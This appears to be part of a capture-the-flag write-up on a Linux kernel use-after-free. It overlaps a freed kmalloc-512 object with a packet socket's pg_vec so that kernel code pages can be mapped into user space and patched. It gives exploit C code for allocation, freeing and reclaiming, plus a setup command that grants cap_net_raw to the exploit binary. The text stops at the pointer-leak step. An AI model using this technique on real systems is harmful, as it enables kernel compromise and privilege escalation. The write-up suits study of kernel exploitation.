 ```c
static int packet_mmap(struct file *file, struct socket *sock,
        struct vm_area_struct *vma)
{
    ...
            for (i = 0; i < rb->pg_vec_len; i++) {
            struct page *page;
            void *kaddr = rb->pg_vec[i].buffer;
            int pg_num;

            for (pg_num = 0; pg_num < rb->pg_vec_pages; pg_num++) {
                page = pgv_to_page(kaddr);
                err = vm_insert_page(vma, start, page);
                if (unlikely(err))
                    goto out;
                start += PAGE_SIZE;
                kaddr += PAGE_SIZE;
            }
        }
```
The packet mmap feature is designed to enable high-speed packet processing by eliminating unnecessary copying between user space and kernel space. However, by overwriting the pointers in `pg_vec`, it is possible to map pages containing kernel code into user space and apply arbitrary patches.

A packet socket requires either the `CAP_NET_RAW` capability or a user namespace. In the distributed kernel, for simplicity, the `CAP_NET_RAW` capability is assigned to the exploit:
```bash
[ -e /dev/sdc ] && cat /dev/sdc > /bin/pwn && chmod 755 /bin/pwn && setcap cap_net_raw+ep /bin/pwn
```

## Exploitation
First, we allocate and free the victim object:
```c
puts("[*] Allocating a victim object from kmalloc-512");
obj_alloc();

puts("[*] Freeing the victim object");
obj_free();
```
Next, we allocate `pg_vec` by calling `setsockopt` and overlap it with the freed victim object:
```c
puts("[*] Allocating a pg_vec to reclaim the memory");
unsigned int block_nr =  OBJ_SIZE / sizeof(char *);
struct tpacket_req req = {
    .tp_block_size = PAGE_SIZE,
    .tp_frame_size = PAGE_SIZE,
    .tp_block_nr = block_nr,
    .tp_frame_nr = block_nr,
};
assert(setsockopt(sockfd, SOL_PACKET, PACKET_RX_RING, &req, sizeof(req)) != -1);
```
Next, we leak the pointer in `pg_vec` and calcurate `page_offset_base`.
